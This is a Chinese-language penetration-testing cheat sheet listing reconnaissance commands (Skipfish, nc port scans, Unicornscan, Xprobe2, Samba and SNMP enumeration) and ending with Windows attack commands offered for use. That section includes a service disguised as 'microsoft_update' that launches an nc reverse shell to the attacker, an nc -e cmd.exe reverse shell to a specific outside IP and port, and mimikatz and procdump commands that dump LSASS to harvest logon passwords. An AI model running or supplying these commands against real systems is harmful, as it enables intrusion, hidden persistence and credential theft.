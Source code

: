 ## 使用 Skipfish 扫描

Skipfish 是一款 Web 应用安全侦查工具，Skipfish 会利用递归爬虫和基于字典的探针生成一幅交互式网站地图，最终生成的地图会在通过安全检查后输出。

<pre class="prettyprint linenums" >skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://IP
</pre>

## 使用 NC 扫描

<pre class="prettyprint linenums" >nc -v -w 1 target -z 1-1000
for i in {101..102}; do nc -vv -n -w 1 192.168.56.$i 21-25 -z; done
</pre>

## Unicornscan

Unicornscan 是一个信息收集和安全审计的工具。

<pre class="prettyprint linenums" >us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535

-H 在生成报告阶段解析主机名
-m 扫描类型 (sf - tcp, U - udp)
-Iv - 详细
</pre>

## 使用 Xprobe2 识别操作系统指纹

<pre class="prettyprint linenums" >xprobe2 -v -p tcp:80:open IP
</pre>

## 枚举 Samba

<pre class="prettyprint linenums" >nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target
</pre>

## 枚举 SNMP

<pre class="prettyprint linenums" >snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP
</pre>

## 实用的 Windows cmd 命令

<pre class="prettyprint linenums" >net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32 位系统
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64 位系统
</pre>
